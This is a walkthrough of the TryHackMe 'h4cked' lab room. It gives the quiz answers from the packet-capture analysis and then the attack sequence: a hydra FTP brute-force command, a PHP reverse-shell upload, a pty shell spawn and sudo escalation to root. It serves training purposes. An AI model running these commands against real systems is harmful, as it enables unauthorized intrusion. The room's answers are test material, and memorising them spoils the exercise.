



# h4cked room on [TryHackMe](https://tryhackme.com/room/h4cked)


---

## Index
- [Analysis](#task-file-analysis)
- [Hacking back](#gain-access)

---

### Task File Analysis

Critical to use **follow streams** so that it is viable to analyse packets and their transmissions



What service is the attacker trying to access?

`ftp`

There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?

`hydra`

The attacker is trying to log on with a specific username. What is the username?

`jenny`

What is the user's password?

`password123`

What is the current FTP working directory after the attacker logged in?

`/var/www/html`

The attacker uploaded a backdoor. What is the backdoor's filename?

`shell.php`

The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

 `http://pentestmonkey.net/tools/php-reverse-shell`

Which command did the attacker manually execute after getting a reverse shell?

`whoami`

What's the computer hostname?

`wir3`

Which command did the attacker execute to spawn a new TTY shell?

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Which command was executed to gain a root shell?

`sudo su`

The attacker downloaded something from GitHub. What is the name of the GitHub project?

`reptile`

The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

`rootkit`

---

### Gain Access

```bash
export IP=10.10.40.43
```

Brute forcing our way into the ftp server.

```bash
hydra -t 64 -l jenny -P ~/wordlists/passwords/rockyou.txt ftp://$IP
```



Now that we have access, we can upload our own reverse-shell to gain access to the machine.

Modifying the default pentestmonkey php reverse-shell and putting that onto the ftp server so we can access it.



Followed by opening
```bash
open -j http://$IP/revshell.php
```

Gives us a shell we can access. Then we stabilise it using the same python code as before.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Followed by:
```bash
su jenny # We have jenny's credentials from earlier
sudo su
```

And we can now navigate to `/root/Reptile` and grab the flag!

_**Complete!**_


